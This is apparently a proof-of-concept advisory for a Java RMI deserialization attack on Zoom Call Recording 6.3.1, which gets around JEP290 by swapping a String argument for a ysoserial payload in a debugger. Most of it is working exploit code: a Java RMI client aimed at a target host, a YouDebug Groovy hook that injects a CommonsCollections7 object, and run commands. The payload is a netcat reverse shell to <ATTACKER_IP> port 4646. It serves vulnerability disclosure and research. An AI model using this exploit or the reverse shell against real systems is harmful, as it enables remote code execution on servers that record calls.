

# Java RMI Deserialization via "Bypassing" Argument Type Safety

Zoom Call Recording 6.3.1 from [ZOOM International](https://www.zoomint.com/solutions/call-recording) exposes over RMI multiple functions that do not directly accept Java Objects as parameters.
<br/>
By using a Java Debugger, almost any function can be used to bypass the JEP290 protection and trigger deserialization at the application level.
<br/>
<strong>Note:</strong> This exploitation technique requires a more complex setup in order to run the exploit.

### Proof Of Concept:

For this example, we will be using the remote stub function "getCallRecModule(String)".
<br/>
As it can be seen the function only accepts Java "String", so we will need to bypass client-side checks in order to server a Java Object instead of a String. This will be done by using a Java Debugger (Ex. YouDebug), to catch and replace the String with a ysoserial object on the fly.
<br/>
To achieve this will require 3 steps:

#### 1. Java Code

We will use and compile the following Java code: 
```
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
import java.util.Properties;  
import java.rmi.Remote;
import java.rmi.RemoteException;

// stub interface and method required for the exploit
interface IRMICallRecAPI extends Remote {
    Remote getCallRecModule(String str) throws RemoteException;
}
  
public class ZoomRMI {  
    private static final String host = "<TARGET_IP>";  
    private static final int port = 30400;  
  
    public static void main(String[] args) {  
  
        try {  
            String serverIP = host;  
            int serverPort = port;  
            Properties props = System.getProperties();  
            props.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
  
            System.out.println("Starting");  
            Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);  
            System.out.println("Reg fetch ok");  
            IRMICallRecAPI CallRecAPI_RMI = (IRMICallRecAPI) registry.lookup("CallRecAPI_RMI");
            CallRecAPI_RMI.getCallRecModule("Mal_String_Mal");
            System.out.println("Exploit");
  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

#### 2. YouDebug Code

The debugger will attach to the Java program to:
1. hook the "java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod()" function
1. look for our needle String (in this case "Mal_String_Mal")
1. replace it with a ysoserial "CommonsCollections7" serialized object

We will use the following Groovy code for the debugger:
```
def payloadName = "CommonsCollections7";  
def payloadCommand = "/usr/bin/nc -e /bin/bash <ATTACKER_IP> 4646";  
def needle = "Mal_String_Mal"  
  
println "Loaded..."  
  
// set a breakpoint at "invokeRemoteMethod", search the passed argument for a String object  
// that contains needle. If found, replace the object with the generated payload  
vm.methodEntryBreakpoint("java.rmi.server.RemoteObjectInvocationHandler", "invokeRemoteMethod") {  
  
  println "[+] java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called"  
  
  // make sure that the payload class is loaded by the classloader of the debugee
  vm.loadClass("ysoserial.payloads." + payloadName);  
  
  // get the Array of Objects that were passed as Arguments  
  delegate."@2".eachWithIndex { arg,idx ->  
     println "[+] Argument " + idx + ": " + arg[0].toString();  
     if(arg[0].toString().contains(needle)) {  
        println "[+] Needle " + needle + " found, replacing String with payload"   
        // Create a new instance of the ysoserial payload in the debuggee  
        def payload = vm._new("ysoserial.payloads." + payloadName);  
        def payloadObject = payload.getObject(payloadCommand)  
     
        vm.ref("java.lang.reflect.Array").set(delegate."@2",idx, payloadObject);  
        println "[+] Done.."  
     }  
  }  
}
```

<strong>Note:</strong> In order for YouDebug to work, we will need to create a "libs" folder that will contain Java JAR libraries containing the required dependencies:
- [ysoserial.jar](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

#### 3. Running The Exploit

Now all that is left in to run the Java Compiled code with remote debugging arguments:
```
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=5005 ZoomRMI
```

And attach the YouDebugger to it:
```
java -jar youdebug-1.5.jar -socket 127.0.0.1:5005 zoom.groovy
```



If the exploit is successful, we will receive back a reverse shell on port 4646.


### Additional Resources:

[Attacking Java RMI Services After JEP 290](https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
<br/>
[YouDebug](http://youdebug.kohsuke.org/)
<br/>
[Ysoserial](https://github.com/frohoff/ysoserial)
